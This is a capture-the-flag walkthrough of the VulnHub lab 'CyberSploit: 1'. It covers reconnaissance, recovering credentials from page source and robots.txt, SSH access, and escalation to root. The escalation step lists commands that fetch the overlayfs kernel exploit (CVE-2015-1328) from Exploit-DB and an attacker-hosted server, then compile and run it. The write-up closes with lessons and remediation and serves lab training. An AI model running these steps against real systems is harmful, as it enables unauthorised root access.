


# CyberSploit: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.x (DHCP; discover with netdiscover) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | Read `/root/flag.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/cybersploit-1-vulnhub-walkthrough/) |

## Attack Summary

Find an SSH username in the page source, decode a base64 password from `robots.txt`, log in over SSH, decode a binary-encoded Flag 2 with CyberChef, and escalate to root by compiling and running an overlayfs local privilege escalation exploit (CVE-2015-1328, EDB-37292).

## Methodology

1. Reconnaissance (netdiscover + nmap)
2. Web enumeration (page source, robots.txt, Gobuster)
3. Exploitation (SSH with discovered credentials)
4. Privilege escalation (kernel exploit — overlayfs, EDB-37292)

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Note the target IP from the ARP table output.

## Step 2: Reconnaissance

```bash
nmap -sV -sC -p- <TARGET_IP>
```



Key open ports:

| Port | Service |
|------|---------|
| 22   | OpenSSH |
| 80   | Apache HTTP |

Add the target to `/etc/hosts` for convenience:

```bash
echo "<TARGET_IP>  cybersploit.local" >> /etc/hosts
```

## Step 3: Web Enumeration

### Page source — SSH username

Browse to `http://<TARGET_IP>/` and view the source. An SSH username is visible in an HTML comment:

```
<!-- username: itsskv -->
```

### robots.txt — base64 password

Fetch `robots.txt`:

```bash
curl http://<TARGET_IP>/robots.txt
```

The `Disallow` entry contains a base64 string. Decode it:

```bash
echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
```

The decoded output is the password (and Flag 1).

### Directory brute-force

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```


## Step 4: Initial Access via SSH

```bash
ssh itsskv@<TARGET_IP>
# Password: <decoded base64 value>
```

Read the second flag:

```bash
cat flag2.txt
```

The content is binary-encoded text (groups of 0s and 1s). Decode it using CyberChef (From Binary operation) to get Flag 2.



## Step 5: Privilege Escalation (Kernel Exploit — EDB-37292)

Check the kernel version:

```bash
uname -r
# 3.13.0-32-generic
```

The kernel is vulnerable to the overlayfs local privilege escalation (CVE-2015-1328).

Download the exploit from Exploit-DB (ID 37292) to the target:

```bash
# On attack machine — serve the file
wget https://www.exploit-db.com/raw/37292 -O /tmp/37292.c
python3 -m http.server 8080

# On target machine
wget http://<LHOST>:8080/37292.c -O /tmp/37292.c
cd /tmp
gcc 37292.c -o overlayfs
chmod +x overlayfs
./overlayfs
```

You now have a root shell:

```bash
id
# uid=0(root) gid=0(root)
```


## Step 6: Root Flag

```bash
cat /root/flag.txt
```


## Lessons Learned

1. Credentials embedded in HTML comments and `robots.txt` are trivially discovered by any attacker.
2. Base64 is encoding, not encryption — it provides zero confidentiality.
3. Running an outdated kernel (`3.13.0`) exposes the host to well-known local privilege escalation exploits.
4. `robots.txt` should never list paths or secrets you want kept private; it is publicly readable.

## Remediation

| Vulnerability | Fix |
|---|---|
| Username in HTML comment | Remove all credentials and hints from client-side source |
| Password in robots.txt | Never store sensitive data in robots.txt |
| Outdated kernel (CVE-2015-1328) | Upgrade to a supported kernel and apply security patches regularly |
| Weak credential storage | Use a secrets manager; enforce strong password policies |
